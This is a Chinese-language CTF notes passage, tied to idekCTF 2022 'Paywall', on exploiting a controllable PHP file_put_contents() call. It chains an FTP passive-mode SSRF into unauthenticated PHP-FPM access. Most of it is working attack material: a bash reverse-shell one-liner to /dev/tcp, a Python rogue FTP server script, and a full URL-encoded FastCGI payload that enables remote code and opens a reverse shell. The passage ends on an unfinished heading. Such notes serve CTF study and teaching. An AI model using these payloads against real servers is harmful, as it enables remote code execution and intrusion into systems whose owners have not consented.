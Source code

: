   [idekCTF 2022 - Paywall](https://dqgom7v7dl.feishu.cn/docx/RL8cdsipLoYAMvxl8bJcIERznWH)

### file_put_contents()

- 攻击php-fpm（未授权访问漏洞）

  如果目标主机上正在运行着 `PHP-FPM`，并且有一个`file_put_contents()`函数的参数是可控的，可以使用 `FTP` 协议的被动模式：客户端试图从`FTP`服务器上读取/写入一个文件，服务器会通知客户端将文件的内容读取到一个指定的`IP`和端口上，我们可以指定到`127.0.0.1:9000`，这样就可以向目标主机的 `PHP-FPM` 发送一个任意的数据包，从而执行代码，造成`SSRF`。

  `file_put_contents($_GET['file'], $_GET['data']);`

  先用 `gopherus` 生成一个反弹`shell`的`payload`，截取 `_` 后面的部分

  `/var/www/html/index.php`

  `bash -c "bash -i >& /dev/tcp/[IP]/[Port] 0>&1"`

  关于`FTP`的[返回码](https://blog.csdn.net/wangzhufei/article/details/86177015)，我们看到`227`：

  > `Entering Passive Mode <h1,h2,h3,h4,p1,p2> 进入被动模式(h1,h2,h3,h4,p1,p2)`

  我们可以用来进入被动模式，`h`和`p`分别为地址和端口，搭建一个恶意的 `ftp` 服务器：

  复制

  ```
  import socket
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
  s.bind(('0.0.0.0', 123))
  s.listen(1)
  conn, addr = s.accept()
  conn.send(b'220 welcome\n')
  conn.send(b'331 Please specify the password.\n')
  conn.send(b'230 Login successful.\n')
  conn.send(b'200 Switching to Binary mode.\n')
  conn.send(b'550 Could not get the file size.\n')
  conn.send(b'150 ok\n')
  conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
  conn.send(b'150 Permission denied.\n')
  conn.send(b'221 Goodbye.\n')
  conn.close()
  ```

  启动服务器之后再监听反弹的端口：

  `http://ip:8080/ftp.php?file=ftp://@ip:123/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%0F%07%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH107%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F!SCRIPT_FILENAME/usr/share/nginx/html/phpinfo.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00k%04%00%3C%3Fphp%20system(%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/ip/1234%200%3E%261%22%27)%3Bdie(%27-----Made-by-SpyD3r-----%0A%27)%3B%3F%3E%00%00%00%00`

  参考：[教你用 FTP SSRF 打穿内网](https://whoamianony.top/2021/10/24/Web安全/教你用 FTP SSRF 打穿内网/)

- array绕过关键字
